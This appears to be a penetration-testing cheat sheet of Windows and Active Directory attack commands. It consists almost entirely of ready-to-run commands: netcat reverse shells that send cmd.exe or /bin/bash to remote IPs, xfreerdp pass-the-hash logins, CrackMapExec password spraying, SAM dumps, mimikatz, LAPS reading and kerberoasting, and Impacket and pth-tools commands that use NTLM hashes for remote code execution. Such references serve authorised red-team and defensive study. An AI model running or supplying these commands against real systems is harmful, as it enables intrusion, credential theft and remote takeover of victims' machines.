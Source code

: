 ##### RDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8 /drive:/tmp /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

##### NC

```powershell
nc.exe ip port -e cmd.exe
nc -lnvp 4444
```

##### Pass The Hash // CME // Impacket // NC

```powershell
nc.exe 172.21.24.11 443 -e cmd.exe
nc 172.21.23.100 443 -e /bin/bash

##CRACKMAPEXEC

crackmapexec smb 192.168.1.101 -u user1 user2 user3 -p Summer18
crackmapexec smb 192.168.1.101 -u user1 -p password1 password2 password3
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'whoami'
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method atexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -X '$PSVersionTable' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
crackmapexec smb -L
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz -o COMMAND='privilege::debug'
crackmapexec smb 192.168.1.1 -d zoro.gold.local -k -u bonclay -p Ocotober2022
export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache / smb zoro.gold.local --use-kcache
crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares
crackmapexec smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
crackmapexec smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
crackmapexec smb <ip> -u user-can-read-laps -p pass --laps
crackmapexec smb <ip> -u 'user' -p 'pass' -M spooler
crackmapexec ldap 192.168.0.104 -u harry -p pass --kerberoasting / hashcat -m13100 output.txt wordlist.txt

##IMPACKET

python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
python psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
python wmiexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
pth-net rpc share list -U 'ignite\Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38' -S 192.168.1.105
pth-winexe -U Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 cmd.exe
```